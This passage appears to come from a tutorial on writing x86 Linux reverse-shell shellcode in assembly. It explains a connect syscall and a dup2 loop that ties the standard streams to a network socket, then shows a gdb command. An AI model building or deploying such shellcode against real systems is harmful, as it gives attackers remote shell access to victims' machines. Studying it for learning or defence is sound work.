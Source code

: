 Then:
```nasm
push 0x10        ; addrlen = 16
push ecx         ; const struct sockaddr *addr
push edx         ; sockfd
mov  ecx, esp    ; move stack pointer to ecx (sockaddr_in struct)
inc  ebx         ; sys_connect (0x3)
int  0x80        ; syscall (exec sys_connect)
```

### redirect stdin, stdout and stderr via dup2

Now we set start-counter and reset `ecx` for loop:             

```nasm
push 0x2         ; set counter to 2
pop  ecx         ; zero to ecx (reset for newfd loop)
```

`ecx` is now ready for the loop, just saving the socket file descriptor to `ebx` as you need it there during the dup2-syscall:

```nasm
xchg ebx, edx    ; save sockfd
```

Then, `dup2` takes 2 arguments:         
```cpp
int dup2(int oldfd, int newfd);
```

Where `oldfd` (ebx) is the client socket file descriptor and `newfd` is used with stdin(0), stdout(1) and stderr(2):
```cpp
for (int i = 0; i < 3; i++) {
    // dup2(sockftd, 0) - stdin
    // dup2(sockfd, 1) - stdout
    // dup2(sockfd, 2) - stderr
    dup2(sockfd, i);
}
```

So, the `sys_dup2` syscall is executed three times in an ecx-based loop:       
```nasm
dup:
  mov  al, 0x3f    ; sys_dup2 = 63 = 0x3f
  int  0x80        ; syscall (exec sys_dup2)
  dec  ecx         ; decrement counter
  jns  dup         ; as long as SF is not set -> jmp to dup
```

`jns` basically jumps to "dup" as long as the signed flag (`SF`) is not set.   

Let's go to debug with `gdb` and check `ecx` value:   
```bash
gdb -q ./rev
```
